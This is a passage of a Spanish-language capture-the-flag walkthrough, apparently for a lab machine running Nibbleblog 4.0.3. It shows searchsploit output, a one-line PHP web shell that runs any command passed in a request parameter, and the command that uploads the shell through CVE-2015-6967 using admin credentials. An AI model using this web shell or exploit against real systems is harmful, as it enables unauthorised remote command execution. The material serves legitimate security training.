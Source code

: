 Las ruta `http://10.129.96.84/nibbleblog/update.php` también nos muestra información interesante

![](/assets/img/Nibbles/image_6.png)

Investigando un poco nos damos cuenta de que `Nibbleblog` es un `CMS`, cuya versión es la `4.0.03` [https://www.bilib.es/actualidad/articulos-tecnologicos/post/noticia/nibbleblog-un-nuevo-cms-para-crear-blogs-sin-usar](https://www.bilib.es/actualidad/articulos-tecnologicos/post/noticia/nibbleblog-un-nuevo-cms-para-crear-blogs-sin-usar)

Con `searchsploit` hemos encontrado una `vulnerabilidad` para esta `versión`

```
# searchsploit Nibbleblog
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                                                                               | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                                                                | php/remote/38489.rb
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Como queremos evitar usar `metasploit` he buscado un exploit en `github` [https://github.com/dix0nym/CVE-2015-6967](https://github.com/dix0nym/CVE-2015-6967). Antes de usar este exploit debemos crearnos un archivo llamado `shell.php` en el `mismo` directorio que el `proyecto` de github

```
<?php
    echo shell_exec($_REQUEST['cmd']);
?>
```

Una vez hecho esto procedemos a `explotar` esta `vulnerabilidad`

```
# python3 exploit.py --url http://10.129.96.84/nibbleblog/ --username admin --password nibbles --payload shell.php
/home/justice-reaper/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```
